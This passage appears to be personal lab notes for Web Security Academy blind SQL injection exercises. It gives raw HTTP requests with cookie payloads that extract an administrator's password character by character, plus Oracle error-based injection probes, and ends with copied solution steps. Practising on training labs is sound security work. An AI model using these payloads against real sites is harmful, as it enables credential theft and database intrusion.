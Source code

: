 ```
```
GET /filter?category=Toys+%26+Games HTTP/2
Host: 0af200090370843486cfde7a00470058.web-security-academy.net
Cookie: TrackingId=BQ4yupPEXi6QwoRX'+AND+(SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a; session=v6Cy546NwHBVlsM3LlV8KsK1hkx78Dwm
```
The above request gets sent to intruder where we section  mark the last 'a' and iterate through it along with each position until we find the complete password. Each 'true' letter is confirmed by the "Welcome Back" message being displayed which we can filter for in intruder. 

# From an Oracle DB, find the username and password for the administrator and login. 

Found the injection is in the trackingID cookie again but this time there is no Welcome Back banner. Instead, it throws and error when I append a single quote. Appending double single quotes fixes the query so that's the injection point. 
Next, we need to try to find a predictable database name for Oracle and see if we can get info from it, for this I used ```'||(SELECT '' FROM dual)||'```
```
GET /filter?category=Gifts HTTP/2
Host: 0a26004603ad956483044797002a0054.web-security-academy.net
Cookie: TrackingId=b2qz4FN3jzJ5SshUv'||(SELECT '' FROM dual)||'; session=mhReDB1XnUY34J9i3trzjI3C9SDSW1eF
```
This returned a valid response which was then verified by changing dual to 'foo' which threw another error. So we can infer true statements by whether or not the server throws an error. 

Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the TrackingId cookie. For simplicity, let's say the original value of the cookie is TrackingId=xyz.
Modify the TrackingId cookie, appending a single quotation mark to it:

TrackingId=xyz'
Verify that an error message is received.

Now change it to two quotation marks:
```TrackingId=xyz''```
Verify that the error disappears. This suggests that a syntax error (in this case, the unclosed quotation mark) is having a detectable effect on the response.
You now need to confirm that the server is interpreting the injection as a SQL query i.e. that the error is a SQL syntax error as opposed to any other kind of error. To do this, you first need to construct a subquery using valid SQL syntax. Try submitting:
```
TrackingId=xyz'||(SELECT '')||'```
In this case, notice that the query still appears to be invalid. This may be due to the database type - try specifying a predictable table name in the query:
```
TrackingId=xyz'||(SELECT '' FROM dual)||'```
As you no longer receive an error, this indicates that the target is probably using an Oracle database, which requires all SELECT statements to explicitly specify a table name.

Now that you've crafted what appears to be a valid query, try submitting an invalid query while still preserving valid SQL syntax. For example, try querying a non-existent table name:
```
TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'```
This time, an error is returned. This behavior strongly suggests that your injection is being processed as a SQL query by the back-end.
